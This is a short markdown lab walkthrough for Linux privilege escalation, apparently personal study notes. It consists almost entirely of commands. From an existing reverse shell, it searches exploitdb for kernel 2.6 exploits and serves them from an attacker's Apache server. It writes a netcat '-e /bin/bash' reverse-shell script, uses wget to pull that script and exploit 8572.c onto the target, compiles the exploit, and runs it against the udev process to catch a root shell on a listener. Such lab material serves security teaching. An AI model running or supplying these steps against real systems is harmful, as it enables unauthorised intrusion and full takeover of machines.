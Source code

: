# Hacking II - Privilege Escalation 

## Prerequisites 

  * You need to have a reverse shell open (e.g. Hacking I - Session) 

## Walkthrough 

```
# STEP 1: Reverse shell (connected to target)
# In Reverse shell find out the kernel version 
uname -a
lsb_release -a

# STEP 2: On kali 
# Open 2nd kali terminal and search exploits 
searchsploit privilege | grep -i linux | grep -i kernel | grep 2.6

# find out source code c
less /usr/share/exploitdb/exploits/linux/local/8572.c

# Start apache server 
systemctl start apache2 

# Symbolic link to all the exploits 
ln -s /usr/share/exploitdb/exploits/linux/local/ /var/www/html/

# Create a run file we will need later 
vi /var/www/html/run
# ip will be the ip of our kali-server 

#!/bin/bash
nc 192.168.10.169 12345 -e /bin/bash

# STEP 3: Reverse shell (connected to target) 
# Download the files 
cd /tmp
wget http://192.168.10.169/run
wget http://192.168.10.169/local/8572.c
# compiling exploit in reverse shell
gcc -o exploit 8572.c
ls -l

# Finding the pid 
cat /proc/net/netlink
ps aux | grep udev

# STEP 4:
# on Kali start a listener 
nc -lvp 12345

# STEP 5:
# Back on reverse shell start the exploit 
# with the pid you got e.g. 2748 (that from cat /proc/net/netlink)  
./exploit 2748

# STEP 6:
# Go back to kali and in your listener enter 
whoami
```


## Ref: (root privileges)

  * https://samsclass.info/124/proj14/p18xLPE.htm
  

